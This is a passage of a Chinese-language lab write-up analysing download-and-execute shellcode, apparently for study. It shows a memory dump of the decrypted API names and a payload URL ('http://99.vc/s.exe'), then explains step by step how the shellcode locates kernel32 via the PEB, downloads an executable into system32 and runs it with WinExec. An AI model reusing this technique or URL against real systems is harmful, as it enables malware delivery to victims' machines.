    2.在所有代码执行之前的解密函数代码执行过程中（我这里省掉了，是xor 66H），从0012FE2F到0012FF6A的内容被xor解密。但是最后一个病毒URL地址，其本身没有加密，也就没有被解密。这跟之前的一次xor FEH不一样

    ```bash
    0012FF0E 47 65 74 50 72 6F 63 41 64 64 72 65 73 73 00                         ;ASCII "GetProcAddress"
    0012FF1D 47 65 74 53 79 73 74 65 6D 44 69 72 65 63 74 6F 72 79 41 00          ;ASCII "GetSystemDirectoryA"       
    0012FF31 57 69 6E 45 78 65 63 00                                              ;ASCII "WinExec"
    0012FF39 45 78 69 74 54 68 72 65 61 64 00                                     ;ASCII "ExitThread"
    0012FF44 4C 6F 61 64 4C 69 62 72 61 72 79 41 00                               ;ASCII "LoadLibraryA"
    0012FF51 75 72 6C 6D 6F 6E 00                                                 ;ASCII "urlmon"
    0012FF58 55 52 4C 44 6F 77 6E 6C 6F 61 64 54 6F 46 69 6C 65 41 00             ;ASCII "URLDownloadToFileA"
    0012FF6B 68 74 74 70 3A 2F 2F 39 39 2E 76 63 2F 73 2E 65 78 65                ;ASCII "http://99.vc/s.exe"
    0012FF7D 80 00 00             add         byte ptr [eax],0                    ;最后80被改为00
    ```

  + 不过，对于一个改节表和入口点的感染型病毒而言，在被感染的文件中，那段在程序初始化后，就被抢先执行的病毒代码，由于其执行的特殊时机（在程序刚初始化 跳到入口点时），它可以轻松地从堆栈中找到一个位于kernel32.dll空间内的地址，然后用它来找kernel32.dll的基址。

  + **经过以上分析，该代码的行为是：
    \1. 利用一个call来使得系统将EIP入栈，并马上pop出来，从而解决了自身代码定位问题，而且由于shellcode编排得巧妙，得到的地址正是指向“数据区”的开头。
    2.利用fs:[0x30]这个地址，得到PEB头部的地址。然后读取PEB中的PLDR_DATA指针，再找LDR_DATA结构中的 InInitializationOrderModuleList的Flink，从而得到指向kernel32.dll的LDR_MODULE结构的地 址。通过读取LDR_MODULE结构中的BaseAddress，从而得到了kernel32.dll在进程空间中的基址。由于PEB属于 Undocument的内容，以上名字可能不同的人命名有所不同，但是意义是一样的。
    3.通过读取kernel32.dll在进程空间中的映像的PE文件结构，找到其输出表，通过循环比对，在AddressOfNames数组中找到指向GetProcAddress这个函数名的指针位置，定位其索引号位置。
    4.通过索引查AddressOfFunctions数组，找到GetProcAddress的函数入口偏移量，加上kernel32.dll的基址，终于得到了GetProcAddress函数的确切入口。
    5.通过调用GetProcAddress函数，配合kernel32.dll的基址这个句柄，找到GetSystemDirectoryA、 Winexec、ExitThread、LoadLibraryA这四个由kernel32.dll导出的函数的入口点，并将之依次保存到“数据区”开头 以备调用。
    6.通过刚刚得到的LoadLibraryA函数入口，加载urlmon.dll，用GetProcAddress得到重要的函数URLDownloadToFileA的入口点，同样保存备用。
    7.通过调用GetSystemDirectoryA，得到系统文件夹路径（即XP里默认为C:/WINDOWS/system32，注意得到的路径最后没有"/"），在路径后面加入/a.exe，作为下载保存的本地地址。
    8.调用URLDownloadToFileA，将由挂马者指定的URL地址对应的病毒文件（这里是http://99.vc/s.exe），下载到本机（默认是C:/WINDOWS/system32/a.exe），并调用Winexec运行。
    9.完成以上所有任务，调用ExitThread，退出自身线程。**

## 实验参考资料

+ [shellcode](https://www.exploit-db.com/shellcodes)
+ [Windows/x86 - Null-Free WinExec Calc.exe Shellcode (195 bytes)](https://www.exploit-db.com/shellcodes/48116)
+ [peb](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/-peb)
+ [pev学习](https://www.cnblogs.com/binlmmhc/p/6501545.html)
+ [PEB structure](https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb)
+ [Process_Environment_Block](https://en.wikipedia.org/wiki/Process_Environment_Block)